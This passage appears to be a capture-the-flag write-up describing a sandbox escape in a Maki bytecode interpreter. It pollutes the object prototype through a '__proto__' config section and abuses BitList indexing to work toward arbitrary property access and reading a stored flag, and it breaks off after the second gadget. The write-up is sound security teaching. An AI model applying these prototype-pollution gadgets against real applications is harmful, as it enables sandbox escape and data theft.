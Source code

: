 # Amped Up

## TLDR

Combine prototype pollution gadgets with a malformed maki bytecode file to invoke function calls on out-of-bounds functions, then use this to grab `Object.defineProperty`, eventually escalating to arbitrary property reading and writing, after which reading `localStorage.flag` is trivial.

## Solve

The idea is to use malicious Maki bytecode to escape the sandbox. We'll use some gadgets from the standard library to achieve this.

### The First Gadget

The first gadget we'll use is `System.getPrivateString`. This eventually leads to `getPrivateString` in `PrivateConfig`, which inherits `getSectionValues` from `ConfigPersistent`:

```typescript
// skin/makiClasses/ConfigPersistent.ts
getSectionValues(section: string): SectionValues {
  if (this._configTree[section] == null) {
    this._configTree[section] = {};
  }
  return this._configTree[section];
}
```

If we supply a section of `__proto__`, we can declare arbitrary values on the object prototype:

```javascript
// In maki
System.getPrivateString("__proto__", "foo", 1);

// In JavaScript
({}).foo // returns 1
```

(note that you may need to change the definition of `getPrivateString` in `std.mi` to make the type of the last argument `Any`, or you won't be able to set anything other than strings)

This gadget gives us a certain amount of freedom, but note that we won't be able to set a key more than once (due to the fact that `getPrivateString` only assigns the default if a value is not already present).

### The Second Gadget

The second gadget we'll use is the `BitList` class. We can use the `getitem` and `setitem` functions:

```typescript
// skin/makiClasses/BitList.ts
getitem(n: number): boolean {
  return this._items[n];
}
setitem(n: number, val: boolean) {
  this.setsize(n);
  this._items[n] = val;
}
```
